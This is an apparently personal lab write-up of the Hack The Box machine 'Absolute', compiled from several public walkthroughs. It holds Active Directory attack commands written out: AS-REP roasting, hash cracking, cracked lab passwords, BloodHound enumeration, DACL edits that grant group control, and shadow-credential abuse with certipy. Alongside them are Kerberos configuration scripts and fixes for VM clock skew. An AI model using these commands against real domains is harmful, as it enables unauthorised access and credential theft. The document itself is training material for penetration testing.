

# Absolute Helped-Through

Name: Absolute
Date:  29/9/2023
Difficulty:  Insane - but not hard as when released due to AD hacking Tool issues
Goals:  
- Azure AD changes overhaul
- Silver, Golden, Diamond and Sapphire Tickets 
- VS Code / Codium and Snyk plugin is must to have!
Learnt:
- [tron for Cleaning your Windows](https://github.com/bmrf/tron)
- `grep -B $LinesBefore -A $LinesAfter `
- `ntpdate -s` multiple times to be very very safe! -  **unless you force the VM to not sync to host!**
	- Actually over and over and over again
	- [Skew-whiff](https://dictionary.cambridge.org/dictionary/english/skew-whiff)  is hyphenated and again the clock Skew is just a every time before anything command - unless you force the VM to not sync to host!
- Impacket branches and various functionality not in the main branch
- samba.org `net` commands 
- RunAsC.exe is a cool when runas is not available
- Azure AD and Activity Directory 
- More AD ACL abuse 
- Shadow Credentials
- KrbRelay 
- More Bloodhound 
- DNS and AD configuration
- All the Linux to AD configuration requirements and weirdness!
- How to share a VM through a Host machine to access the VPN!
- More AD CS nooblet scratchings at the surface 
- The in the real world the tools are broken and need modifications, investigation screenshots for exact run conditions
- Four months dedication to know too much Windows :) 
Beyond Root:
- Silver, Golden, Diamond and Sapphire Tickets
- Author and manage a Azure Policy for Kerberos and research that
- Make a DC for a Vulnerable machine I want to make - plus the: 
	- Docker containerise windows work station and Kubernetes a web app for Vulnerable machine I want to template out and make
	- Windows Privilege Escalation HTB academy for Workstation

Tripletted with [[Response-Helped-Through]] and [[Dynstr-Helped-Through]]

- [[Absolute-Notes.md]]
- [[Absolute-CMD-by-CMDs.md]]

[Ippsec Video](https://www.youtube.com/watch?v=rfAmMQV_wss)
[Alh4zr3d Stream](https://www.twitch.tv/videos/1855594279) - does not exist any more
[0xDF Written Writeup](https://0xdf.gitlab.io/2023/05/27/htb-absolute.html)
I also used the Official Write Up that is the PDF in this directory 
## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


Alh4zr3d: Starts with CME
```bash
crackmapexec smb $IP -u '' -p ''
crackmapexec smb $IP -u '' -p '' --shares 
```
No guest access to shares, but we have host OS information


Alh4zr3d: Background UDP scan 
```bash
sudo nmap -sU -p- -oG nmap/udp-full $IP --min-rate 300 
```

DNS recon
```bash
nslookup
dig axfr dc.absolute.htb @10.129.229.59
dig axfr absolute.htb @10.129.229.59
```

And the outputs:


No Domain Transfer:


All:
```bash
# /etc/hosts
$IP DC.absolute.htb absolute.htb
```

Alh4zr3d:
```bash
ldapsearch -x -b "dc=absolute,dc=htb" -H ldap://$IP
gobuster dir -u http://absolute.htb -w /usr/share/seclist/
gobuster vhost -u  http://absolute.htb -w /usr/share/seclist/
```

Similarly fruitless as the above, but for the sake of completeness


0xdf:
```bash
for i in $(seq 1 6); do wget http://absolute.htb/images/hero_${i}.jpg; done
```

Ippsec:
```bash
wget -r http://absolute.htb
find . -type f -exec exiftool {} \; grep Author | awk -F: '{print $2}' | sed 's/^ //g' > ../users.txt
```

I decided for
```bash
exiftool www/images/hero* > exiftoolOnAllheroJPGs.out
cat exiftoolOnAllheroJPGs.out | grep 'Author' | awk -F: '{print $2}' | sed 's/^ //g' > fullnames.txt
```

Ippsec and 0xDF: [Username Anarchy](https://github.com/urbanadventurer/username-anarchy.git), have not tried this I used it with similar positive results
```bash
cp users.txt ua-input.txt
sed -i 's/ /,/g' ua-input.txt
git clone
ruby username-anarchy/username-anarchy -i ua-input.txt -f flast,f.last,first.last,last.first > potential-usernames.txt 
```

Alh4zr3d: Namemash 
```bash
python3 namemash.py ua-input.txt > nm-potential-usernames.txt
```

Ippsec and Alh4zr3d:
```bash
# Beware of Docker container time sync is required if you used containerised solutions
# Check
sudo ntpdate dc.absolute.htb
# Sync
sudo ntpdate -s dc.absolute.htb
# Reset with
```

Ippsec and Alh4zr3d: [Kerbrute](https://github.com/ropnop/kerbrute) to enumerate users and get potential ASREProastable users
```bash
git clone https://github.com/ropnop/kerbrute.git
cd kerbrute 
go build

./kerbrute userenum --dc dc.absolute.htb -d absolute.htb potential-usernames.txt -o kerbrute.out
```


Ippsec:
```bash
cat kerbrute.out |grep USERNAME | awk '{print $7}' > valid-users.txt
```

Ippsec - this requires the same version of Kerbrute as Ippsec the latest does:
```bash
# For Kali or Parrot git clone and build with `go build`
./kerbrute userenum --dc dc.absolute.htb -d absolute.htb valid-users.txt --downgrade -o kerbrute-dg-asreproast.out
```

0xDF: Impacket can also do this:
```bash
impacket-GetNPUsers -request -usersfile .txt -dc-ip $IP -d absolute.htb/
```

[Viperone AS-REP roasting](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/credential-access/steal-or-forge-kerberos-tickets/as-rep-roasting)

AS-REP roast successful against d.klay


[Hashcat examples](https://hashcat.net/wiki/doku.php?id=example_hashes) plus `CTRL + F -> krb5asrep$23`

```bash
# Hashcat auto was correct
hashcat dklay.hash /usr/share/wordlists/rockyou.txt
```
And cracked..


First credentials
```
d.klay : Darkmoonsky248girl
```

Then used with cme to prove sync date and time is important

everytime
Ippsec and Alh4zr3d: 
```bash
# cme -k kerberos authentication
crackmapexec smb 10.129.229.59 -k -u d.klay -p 'Darkmoonsky248girl' 
# Either this is protect users account or more likely ntlm is disabled - it is a protected users account
crackmapexec smb 10.129.229.59 -k -u d.klay -p 'Darkmoonsky248girl' --shares
crackmapexec smb 10.129.229.59 -k -u d.klay -p 'Darkmoonsky248girl' --rid-brute

# crackmapexec ldap 10.129.229.59 -k -u d.klay -p 'Darkmoonsky248girl' --bloodhound -ns 10.129.229.59 --collection All
```

No crackmapexec bloodhound


Ippsec: Get TGT for d.klay
```bash
impacket-getTGT -dc-ip 10.129.229.59 absolute.htb/d.klay:Darkmoonsky248girl
```

Ippsec and Alh4zr3d: BloodHound.py
```bash
KRB5CCNAME=d.klay.ccache /opt/BloodHound.py/bloodhound.py -k -dc dc.absolute.htb -ns 10.129.229.59 -c all -d absolute.htb -u d.klay -p 'Darkmoonsky248girl' --zip
```

I ran into issues with LDAP and Bloodhound.py - [IBM Support article](https://www.ibm.com/support/pages/authentication-ldap-fails-acceptsecuritycontext-error) *"The problem is the LDAP is not setup for anonymous binds. To resolve this problem, either change the LDAP to allow anonymous binds, or specify a Bind Distinguished Name and Bind password in the WebSphere Application Server LDAP User Registry settings."*

This being the latest version of bloodhound.py


The offending code:


I tried the simple OSCP option of resetting the box just in case before heading down the biggest rabbit hole of my life with configuring python Ldap.core code...


Also three weeks ago [CME forked from original - now deprecated](https://github.com/mpgn/CrackMapExec) and [Kali is still 5.4... as of 20/07/2023](https://www.kali.org/tools/crackmapexec/). as of 31/7/2023 either I was not hammer the `sudo ntpdate -s dc.absolute.htb` over and over again. 

Potentially as 0xdf use the dockerised version: Dockerise the problems... fretted away
```bash
# Build container  
docker build -t bloodhound .
# Run container  
docker run -v ${PWD}:/bloodhound-data -it bloodhound  
# After that you can run `bloodhound-python` inside the container, all data will be stored in the path from where you start the container.
```

I was inspired to reset the time


I had tried sync previous  - TIL try over and over! There is also no verbose or debug output!! YIKES


Check BloodHound as knowing the path ahead helps guide us. Ippsec mentions manual parsing and his video: [Manually Parse Bloodhound Data with JQ to Create Lists of Potentially Vulnerable Users and Computers](https://www.youtube.com/watch?v=o3W4H0UfDmQ)

Bloodhound Debug mode to show Cipher Query
`Settings -> Tick Debug Mode`

Ippsec: Think like a list instead of a graph
```bash
# Convert Integers
(.DotSomethingThatIsAnINT|tostring)
# Display all json nicely
cat user.json | jq .
# Put query at the end of the syntax
# Show the Keys 
cat user.json | jq '. | keys'
# Show all the data key
cat user.json | jq '.data'
# Show all the data key as a list - removes the external data{ ..json..}
cat user.json | jq '.data[]'
# Dump all names
cat user.json | jq '.data[].Properties | .name'
# All enabled accounts
cat user.json | jq '.data[].Properties | select( .enabled == true) | .name'
# All disabled accounts
cat user.json | jq '.data[].Properties | select( .enabled == false) | .name'
# All enabled accounts with descriptions may contain passwords
cat user.json | jq '.data[].Properties | select( .enabled == true) | select( .description != null) | .name + " " + .description'
# Enumerating accounts approximate logons and pwdlastset 
# Beware lastlogon is not replicate between DC
# lastlogontimestamp is replicated every two weeks
# Avoid honeypots are never logged in!
# Bruteforce accounts?
cat user.json | jq '.data[].Properties | select( .enabled == true) |  | .name + " " + (.lastlogontimestamp|tostring)'
# Output where pwdlastset is greater 
cat user.json | jq '.data[].Properties | select( .enabled == true) | select(.pwdlastset > .lastlogontimestamp)| .name + " " + (.lastlogontimestamp|tostring) '
# Get all Kerberoastable accounts
cat user.json | jq '.data[].Properties | select( .serviceprinciplenames != []) | .name'

# Show all machines annd there OSes
cat computers.json | jq '.data[].Properties | .name +  ":" + .operatingsystem'
# Find all non Windows 10 pro
cat computers.json | jq '.data[].Properties | select( . operatingsystem != "Windows 10 Pro") |  .name +  ":" + .operatingsystem'

# lastlogontimestamp for machine is the last time that machine was powered on
cat computers.json | jq '.data[].Properties | .name + ":" + (.lastlogintimestamp|tostring)'
# use EpochConverter too convert
# Check which machine have been on compared to a epoch
cat computers.json | jq '.data[].Properties | select( .lastlogintimestamp > $EPOCH) | .name'
```

Alh4zr3d: Bloodhound
```bash
Set d.klay as owned
First degree group members # d.klay is stockimage photographer lmao (he is a member of photographer group)
d.klay has no outbound object control
...
no kerberoastable accounts..
```

Alh4zr3d: `jq` manual Bloodhound as well
```bash
# List of all users - I added the grep & mattdep_ sugesst -r to remove quotes for jq
cat users.json | jq -r '.data[].Properties.samaccountname' | grep -v 'null'
cat users.json | jq -r '.data[].Properties.description' | grep -v 'null'
```

Forget/Did not know you could grepping for lines before and after a pattern, find on windows can do this. 
```bash
grep -B $LinesBefore -A $LinesAfter 
```

Ippsec: Get the password
```bash
cat user.json | jq '.data[].Properties | select( .enabled == true) | select( .description != null) | .name + " " + .description'
```


Target the winrm_user account and there was a password for smb_svc in the description ...
```bash
# for easy copy and pasting:
cat 20230721045100_users.json | jq '.data[].Properties | select( .enabled == true) | select( .description != null) | .name + " " + .description' | tr -d '"'
```

Credentials!
```
SVC_SMB@ABSOLUTE.HTB : AbsoluteSMBService123!
```

Alh4zr3d: 
```bash
crackmapexec smb 10.129.229.59 -u svc_smb -p 'AbsoluteSMBService123!' 
crackmapexec smb 10.129.229.59 -u svc_smb -p 'AbsoluteSMBService123!' -k  --shares
```
I tried:

By comparison:


Got a TGT for SVC_smb


Clock-screwage-abound! Then I toyed with the idea of the environment variable before the probably requirement for the future of updating crackmapexec to be ahead of Kali, presuming that 


Check Bloodhound for svc_smb permissions and groups. I do have kinit install before hand which may have contributed. As I remind yourself for the third in the second push for completion that this box is a nightmare-ad-pentest-where all the tools do not work and you have understand and fix the configurations of tools and system utilities on the fly. This made this box an absolute priority to do as a Helped-Through as there is nothing more time consuming or finikity than linux-windows-plus-kerberos configurations and kerberos-tool local-maintenance. Patching is something I could do, but I would rather understand the choke points of problems as to where

Have you checked?:
- Step -1): Are *you* mentally prepared and ready to deal with the issue abound... 
- Step 0): is `/etc/hosts` configured `$DCipv4Address dc.$domain.$tld $domain.$tld` in this order!
- Step 1): Continuously re-synced to the DC: `sudo ntpdate -s $targetDC.$domain.$tld
- Step 2): Is Kinit configured properly?
- Step 3): Do you need to **(re)**TGT after re-synced to the DC: go to Step 1)
- Step 4): Are you running latest Tool versions!

Alh4zr3d - but did not work: 
```bash
# -k is deprecated for smbclient, --use-kerberos=required|desired|off
smbclient //absolute.htb/Shared -U 'svc_smb' --use-kerberos=required
# Also 
smbclient //dc.absolute.htb/Shared -U 'svc_smb' --use-kerberos=required
Password for [WORKGROUP\svc_smb]:
# Failed:
Kinit for svc_smb@WORKGROUP to access dc.absolute.htb failed: Cannot contact any KDC for requested realm
session setup failed: NT_STATUS_NO_LOGON_SERVERS
```

- https://www.twitch.tv/videos/1855594279 2:00 Kinit conifguration do additional research!

Returning about a week later before I wrote the script below I installed the stable version of bloodhound.py from kali tools
```bash
KRB5CCNAME=d.klay.ccache bloodhound-python -k -dc dc.absolute.htb -ns 10.129.229.59 -c all -d absolute.htb -u d.klay -p 'Darkmoonsky248girl' --zip
```


Just failed to authenticate with Kerberos instead of erroring out over LDAP connectivity because of clock skew madness. I did get user.json with 0 again.


Now back to what was doing which was the dance of `ntpdate -> Kerberos -> sudo ntpdate -> $Bloodhound(py)varients`. Instead I wanted use `SVC_SMB@ABSOLUTE.HTB : AbsoluteSMBService123!` just in case LDAP authentication was not available for the `d.klay` account.  

```bash
sudo ntpdate -s dc.absolute.htb
impacket-getTGT -dc-ip 10.129.229.59 absolute.htb/SVC_SMB:AbsoluteSMBService123!
sudo ntpdate -s dc.absolute.htb
/opt/BloodHound.py/bloodhound.py -k -dc dc.absolute.htb -ns 10.129.229.59 -c all -d absolute.htb -u SVC_SMB -p 'AbsoluteSMBService123!' --zip
```

Instead I let run just in case it is that bloodhound is just failing to make some checks to `LDAP`, but getting everything else.

Alh4zr3d Kinit and impacket-smbclient
```bash
# Kinit
sudo apt-get install krb5-user
# Al put:
# Default Realm absolute.htb, Servers for your realm 10.129.229.59, Hostname for Krb realm dc.absolute.htb
#sudo sed -i 's//absolute.htb = {\n\t\tkdc = dc.absolute.htb\n\t\tadmin_server = dc.absolute.htb/'
```

manageKRB5Conf.sh
```bash
#!/bin/bash

# Author: 7ru7h

if [ "$#" -ne 4 ]; then
        echo "Usage: $0 <cmd: add / remove>/ setup <realm> <kdc> <admin_server>"
        echo "run \`sudo apt-get install krb5-user\' - put: \`KALI\` as default in all capitals, no \` for adding and removing a default realm"
        exit
fi

CMD=$1

function addToKRB5Conf ()
{
        REALM=$1
        KDC=$2
        ADM=$3
        echo "Adding: $@"
        # add realm
        sudo sed -i 's/default_realm = KALI/default_realm = $REALM/g' /etc/krb5.conf
        sudo sed -i 's/\n\tKALI = {\n\t\tkdc = KALI\n\t\tadmin_server = KALI\n\t}/\n\t$REALM = {\n\t\tkdc = $KDC\n\t\tadmin_server = $ADM\n\t}/g' /etc/krb5.conf
        cat /etc/krb5.conf
        return
}

function removeFromKRB5Conf ()
{
        REALM=$1
        KDC=$2
        ADM=$3
        echo "Remove and replacing back to default KALI every field: $@"
        sudo sed -i 's/default_realm = $REALM/default_realm = KALI/g' /etc/krb5.conf
        sudo sed -i 's/\n\t$REALM = {\n\t\tkdc = $KDC\n\t\tadmin_server = $ADM\n\t}/\n\tKALI = {\n\t\tkdc = KALI\n\t\tadmin_server = KALI\n\t}/g' /etc/krb5.conf
        cat /etc/krb5.conf
        return
}

case $CMD in
        "add") addToKRB5Conf $2 $3 $4 ;;
        "remove") removeFromKRB5Conf $2 $3 $4 ;;
        "setup") echo "run \`sudo apt-get install krb5-user\' - put: KALI as default in all capitals for adding and removing a  default realm"
        *) echo $CMD " is invalid" ;;
esac
exit
```

While I let Bloodhound.py try for 30 minutes otherwise I will try `--auth-method ntlm`


[Good news everyone!](https://www.youtube.com/watch?v=g8IVI0sZ6F8) CME is unskew-wiffed! 


Decided on packet capture with `tcpdump` and viewing it in `wireshark`, without `KRB5CCNAME=` set


With `KRB5CCNAME=`
```bash
sudo ntpdate -s dc.absolute.htb
# Continuous sudo ntpdate -s dc.absolute.htb till it works!
KRB5CCNAME=SVC_SMB.ccache /opt/BloodHound.py/bloodhound.py -k -dc dc.absolute.htb -ns 10.129.229.59 -c all -d absolute.htb -u SVC_SMB -p 'AbsoluteSMBService123!'
```

SUCCESS!


With `tcpdump` and `wireshark` for visuals on the successful authentication 


GSS-API is Generic Security Service API (RFC 2744). It provides a common interface for accessing different security services. **One of the most popular security services available for GSS-API is the Kerberos v5** - [Oracle Help Center](https://docs.oracle.com/javase/jndi/tutorial/ldap/security/gssapi.html)

Simplified my script to deal with `$var` and `\escapes` replacements, but learn how `sed` can handle variable just not with some characters
```bash
#!/bin/bash

# Author: 7ru7h

if [ "$#" -ne 4 ]; then
        echo "Usage: $0 <cmd: add / remove>/ setup <realm> <kdc> <admin_server>"
        echo "run \`sudo apt-get install krb5-user\' - put: \`KALI\` as default in all capitals, no \` for adding and removing a default realm"
        exit
fi

CMD=$1

function addToKRB5Conf ()
{
        REALM=$1
        KDC=$2
        ADM=$3
        echo "Adding: $@"
        # add realm
        sudo sed -i "s/admin_server = KALI/admin_server = $ADM/g" /etc/krb5.conf
        sudo sed -i "s/kdc = KALI/kdc = $KDC/g" /etc/krb5.conf
        sudo sed -i "s/KALI/$REALM/g" /etc/krb5.conf
        cat /etc/krb5.conf
        return
}

function removeFromKRB5Conf ()
{
        REALM=$1
        KDC=$2
        ADM=$3
        echo "Remove and replacing back to default KALI every field: $@"
        sudo sed -i "s/kdc = $KDC/kdc = KALI/g" /etc/krb5.conf
        sudo sed -i "s/admin_server = $ADM/admin_server = KALI/g" /etc/krb5.conf
        sudo sed -i "s/$REALM/KALI/g" /etc/krb5.conf
        cat /etc/krb5.conf
        return
}

case "$CMD" in
        add) addToKRB5Conf $2 $3 $4 ;;
        remove) removeFromKRB5Conf $2 $3 $4 ;;
        setup) echo "run \`sudo apt-get install krb5-user\' - put: KALI as default in all capitals for adding and removing a  default realm" ;;
        *) echo "$CMD is invalid" ;;
esac
exit
```

Did not work and Kinit is the way
```bash
KRB5CCNAME=SVC_SMB.ccache impacket-smbclient -dc-ip 10.129.229.59 -k absolute.htb/smb_svc@dc.absolute.htb/Shared
```

#### After awhile of considering how to proceed 

I starting by research if Kali issues with `ntpdate` and `ntpsec` were the issue, but either I found two bad answers: either set up my own `ntp` server - very noisy or potential use a different distribution.

The waves of joy - after reading this.


Disable Time Synchronisation with Host for Guest VMs

[VMWare](https://kb.vmware.com/s/article/1189)

- Solutions to syncing to host:
	- Periodic Time-Sync
	- One-off time sync

To disable periodic time synchronization in a VM, launch vSphere Client, go to `Edit Settings →  VM Options →  VMware Tools → Synchronize Time with Host, and deselect the checkbox "Synchronize time periodically"`  
  
The vmx option for this setting is tools.syncTime and its value can be "TRUE" when periodic time sync is enabled, or "FALSE" when periodic time sync is disabled.  

To disable one-off time synchronization in a VM, launch vSphere Client, go to `Edit Settings →  VM Options →  VMware Tools → Synchronize Time with Host, and deselect the checkbox "Synchronize at startup and resume (recommended)"`

Disabling one-off time synchronization as described will also automatically force disable periodic time synchronization.  
  
This setting is managed with the vmx option time.synchronize.allow. By default, when one-off time synchronization is enabled, the option has the value "TRUE", but is not contained in the vmx configuration file. When one-off time synchronization is however disabled, you can find this option in the vmx configuration file with the value "FALSE".

VMware Workstation, Fusion, and vSphere prior to version 7.01 U1 provide a single checkbox in a VM's VMware Tools control panel, which enables or disables periodic time synchronization only.

To disable periodic time synchronization in a VM, launch vSphere Client, go to `Edit Settings →  VM Options →  VMware Tools → Time, and deselect the checkbox "Synchronize guest time with host"`

To disable one-off time synchronization in a VM, you must set the following advanced configuration settings.  
 
|   |
|---|
|time.synchronize.continue = "FALSE"<br>time.synchronize.restore = "FALSE"<br>time.synchronize.resume.disk = "FALSE"<br>time.synchronize.shrink = "FALSE"<br>time.synchronize.tools.startup = "FALSE"<br>time.synchronize.tools.enable = "FALSE"<br>time.synchronize.resume.host = "FALSE"|


[Virtualbox](https://forums.virtualbox.org/viewtopic.php?t=97014)
```bash
VBoxManage setextradata "VM name" "VBoxInternal/Devices/VMMDev/0/Config/GetHostTimeDisabled" 1
```

#### Back to the machine 

HURRAY Clock Skewage is gone!


Fixed and updated my management script:
```bash
#!/bin/bash
# Author: 7ru7h
if [ "$#" -ne 5 ]; then
        echo "Usage: $0 <cmd: add / remove>/ setup <realm> <kdc> <admin_server> <default_domain>"
	echo "BEWARE - This will require super user access and modify and important file - BEWARE"
	echo "run \`sudo apt-get install krb5-user\' - put: \`KALI\` as default in all capitals, no \` for adding and removing a default realm"	
	echo "Also requires KALI to be the set to the default_domain, which is not added on install"
        echo ""
	echo "... /etc/krb5.conf : ..."
	echo ""
	echo "[realms]
	        KALI = {
		                kdc = KALI
				admin_server = KALI
			}"
	echo " ... "	
	echo " Should be:"
	echo ""
	echo "[realms]
	        KALI = {
		                kdc = KALI
				admin_server = KALI
				default_domain = KALI
			}"
	echo ""
	echo ""
	exit
fi

CMD=$1
echo "Backed up /etc/krb5.conf -> /etc/krb5.conf.bak"

function setupKRB5Conf()
{
	echo "run \`sudo apt-get install krb5-user\' - put: KALI as default in all capitals for adding and removing a  default realm"
	echo "\`sudo cp /etc/krb5.conf /etc/krb5.conf.bak\`"
	echo "add \`default_domain = KALI\` under admin_server = KALI"
}


function addToKRB5Conf ()
{
        REALM=$1
        KDC=$2
        ADM=$3
	DOM=$4
        # add realm
        sudo sed -i "s/admin_server = KALI/admin_server = $ADM/g" /etc/krb5.conf
        sudo sed -i "s/kdc = KALI/kdc = $KDC/g" /etc/krb5.conf
	sudo sed -i "s/default_domain = KALI/domain = $DOM/g" /etc/krb5.conf
        sudo sed -i "s/default_realm = KALI/default_realm = $REALM/g" /etc/krb5.conf
        cat /etc/krb5.conf
	echo "Added: $@"
        return
}

function removeFromKRB5Conf ()
{
        REALM=$1
        KDC=$2
        ADM=$3
	DOM=$4
        sudo sed -i "s/kdc = $KDC/kdc = KALI/g" /etc/krb5.conf
        sudo sed -i "s/admin_server = $ADM/admin_server = KALI/g" /etc/krb5.conf
        sudo sed -i "s/default_realm = $REALM/default_realm = KALI/g" /etc/krb5.conf
        sudo sed -i "s/default_domain = $DOM /default_realm = KALI/g" /etc/krb5.conf
	cat /etc/krb5.conf
	echo "Removed and replacing back to default KALI every field: $@"
        return
}

case "$CMD" in
        add) addToKRB5Conf $2 $3 $4 $5 ;;
        remove) removeFromKRB5Conf $2 $3 $4 $5 ;;
        setup) setupKRB5Conf ;;
        *) echo "$CMD is invalid" ;;
esac
exit

```

Ippsec: LDAPsearch
```bash
# Provide password
kinit d.klay
/etc/hosts # must have dc.absolute.htb first
ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -b="cn=users,dc=absolute,dc=htb" "users" "description"
# 
```

So tried at the suggestion of ChatGPT to run:
```
ldapsearch -x -LLL -H ldap://dc.absolute.htb -s base supportedSASLMechanisms
```


Then I realised I had retrod a previous step and continued to connecting to the SMB share

Ippsec: Get a ticket for svc_smb account
```bash
impacket-GetTGT absolute.htb/svc_smb
```

Ippsec: 
```bash
KRB5CCNAME=SVC_SMB.ccache impacket-smbclient -k absolute.htb/svc_smb@$IP -target-ip $IP
# 
KRB5CCNAME=SVC_SMB.ccache impacket-smbclient -k absolute.htb/svc_smb@dc.absolute.htb -target-ip $IP
```


Ippsec: Python Virtual environments to manage impacket libraries and versioning
```python
python3 -m venv .venv

source .venv/bin/activate 
pip3 install .

# deactivate # To deactivate virtual environment
```

Impacket had been updated by this point, but I have also use python virtual environments a lot with other machines considering the kali python3 changes to apt. Plundering the SMB Share "Shared" felt good after four months of doing this machine.


Before transferring to a Windows VM Alh4zr3d did:
```bash
file test.exe
string test.exe
```

[Ippsec.Rocks](https://ippsec.rocks): Sharing VPN with your Window guest from your Linux host 
```bash
# Check if IP fowarding is enabled 
cat /proc/sys/net/ipv4/ip_forward
# Enable IP forwarding
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
# Iptables rules 
# INTERFACE is whatever network device that is providing internet to your nic from `ip a`
# INF-IP is INTERFACE ip not include CIDR range
# RANGE is the range choosen or the CIDR range from INTERFACE
sudo iptables -A FORWARD -i tun0 -o $INTERFACE -m state --state RELATED,ESTABLISHED -j ACCEPT
sudo iptables -A FORWARD -i $INTERFACE -o tun0 -j ACCEPT
# Create masquerade/NAT rule to deal with connection not rewriting the ip adderss as Linux box is gateway, but not handling addresses
sudo iptables -t NAT -A POSTROUTING -s INF-IP/RANGE -o tun0 -j MASQUERADE
```

[[Sharp-Helped-Through]] has more verbose instructions. Ippsec: 
```powershell
# Create route on Windows machine
route add 10.10.10.0/23 mask 255.255.254.0 gw $LINUXIP
```

Ippsec: Ippsec reconfigured a network adaptor, but you could also add entries into /etc/hosts on windows
```powershell
C:\Windows\System32\drivers\etc\hosts
```

Alh4zr3d, but then had configure an interface like Ippsec - Research!!! :
```powershell
# DNS blackhole test.exe
# Administrator terminal
powershell.exe  
echo "127.0.0.1 dc.absolute.htb absolute.htb" >> C:\Windows\System32\drivers\etc\hosts
# test.exe is not using the hosts file
```

#### DNS Detour 

I decided to to take a 30 minute detour through setting up DNS on Windows from the [KevinCurran lab](https://kevincurran.org/com320/labs/dns.htm) as I had not done that yet and knowing DNS and myself - I need it. 

```powershell
ipconfig /displaydns # bewrare alot of entries even by default
ipconfig /flushdns # delete all entries
# Perform DNS lookup without nslookup
ping $domain.$tld
ipconfig /displaydns
# with nslookup
nslookup dnsisdnssobedomainiant.dns
nslookup 10.10.10.10 # reverse lookup IP returns domain
# Windows hosts file is stored:
C:\Windows\System32\Drivers\Etc\hosts
# Hosts file data always stays in the DNS cache
# Administrative notepad required!
notepad C:\Windows\System32\Drivers\Etc\hosts
# Lines addded for IPv4 = `10.10.10.10 dnsisdnssobedomainiant.dns`
```

#### Skipping section

Given how I have configured everything and have limited time as I put so much time into testing to make configuration template for later machines I will skip the reversing of the binary. Ippsec and Alh4zr3d used  Wireshark after running `test.exe` and it send plaintext LDAP credential over to authenticate with the DC


You could also Packet capture with `netsh`
```powershell
netsh trace start capture=yes tracefile=C:\users\$user\desktop\$pcapname.etl
netsh trace stop
```

Bloodhound check `m.lovegod` find the shadow credentials. Ippsec: DACLEdit
```bash
impacket-getTGT absolute.htb/m.lovegod:AbsoluteLDAP2022! -dc-ip dc.absolute.htb
# Running this mostly for the glory of screenshot without some weird kerberos error!
KRB5CCNAME=m.lovegod.ccache $bloodhoundPythonInstallMethod -k -dc dc.absolute.htb -ns 10.129.229.59 -c all -d absolute.htb -u m.lovegod -p 'AbsoluteLDAP2022!' --zip
```


Alh4zr3d `pipx` showcase that I do not want to replicate: - [ldap_shell](https://github.com/PShlyundin/ldap_shell)
```bash
# Almost did
# git clone https://github.com/z-Riocool/ldap_shell.git
# ldapmodify + ldapsearch
ldap_shell -dc-ip $IP -k -no-pass dc.absolute.htb absolute.htb/m.lovegod@dc.absolute.htb
get_group_users NETWORK AUDIT
set_genericall 'NETWORK AUDIT' m.lovegod
exit
ldap_shell -dc-ip $IP -k -no-pass dc.absolute.htb absolute.htb/m.lovegod@dc.absolute.htb
add_user_to_group m.lovegod 'NETWORK AUDIT'
# Tickets probably expired so requires password
certipy shadow auto -k -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip $IP -target dc.absolute.htb -account winrm_user -p ''
```

[Ippsec Video feels so good at this point knowing that I may never have ever worry about Linux Kerberos until all the tools break again and then its just fixing a tool! GLORIOUS](https://www.youtube.com/watch?v=rfAmMQV_wss). 

DACLEDit is not main branch impacket
```bash
git clone https://github.com/ShutdownRepo/impacket -b dacledit
# Ippsec: Python Virtual environments to manage impacket libraries and versioning
python3 -m venv .venv
source .venv/bin/activate 
pip3 install .
# deactivate # To deactivate virtual environment
# GET TICKET for the python venv!
# AbsoluteLDAP2022!
getTGT.py absolute.htb/m.lovegod 
KRB5CCNAME=$(pwd)/m.lovegod.ccache ../impacket/examples/dacledit.py -k -no-pass -dc-ip 10.129.229.59 -principal m.lovegod -action write -target "Network Audit"  -rights FullControl absolute.htb/m.lovegod
# Add m.lovegod to the group with net rpc
kinit m.lovegod
net rpc group help # -? to list options
net rpc group addmem "Network Audit" -k -U m.lovegod -S dc.absolute.htb m.lovegod
# we need another TGT as we are now a memeber of the group
getTGT.py absolute.htb/m.lovegod
```


Then  quickly:


[Samba net command](https://www.samba.org/samba/docs/current/man-html/net.8.html)
```bash
# Requires correct configuration of /etc/krb5.conf
kinit Administrator
net ads info
# Get closest DC in domain and retrieve server information
net ads lookup 

net ads join -k # Kerberos Auth
net ads join -U Administrator # NTLM Auth
# Join a computer account
# Beware all the additiona requirements required: https://sssd.io/docs/ad/ad-provider-manual.html
net ads join createcomputer="<OU>" createupn


# List all users
net rpc user
# List domain info of a specific user
net rpc user info $username

# List all groups
net rpc group list
# List all users of a specific group
net rpc group members  $group
# Add a user to a specific group
net rap groupmember add $group $username

# Remote Command execution - Only works with OS/2 servers. Not currently implement :(
# net rap admin $cmd

# Enumerates all exported resources (network shares) on target server.
net share $target


# Creating Additional principals:
# Keytabs do not need to be created on the DC
# Require sufficient ACLs to jon to the domain 
net ads keytab add
```

Ippsec: Certipy to add shadow credential to winrm
```bash
KRB5CCANME=m.lovegod.ccache certipy shadow auto -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip $IP -target dc.absolute.htb -account winrm_user
```

As we are still in the python virtual environment I will install `certipy` with `pip3` as kali variant of `python3-certipy` has been weird for at least six months  
```bash
pip3 install certipy-ad
```

#### WTF are the shadow credentials!

A summary and explanation of Shadow credentials mostly from the sources: [iredteam](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials) [hacker.recipes](https://www.thehacker.recipes/a-d/movement/kerberos/shadow-credentials)
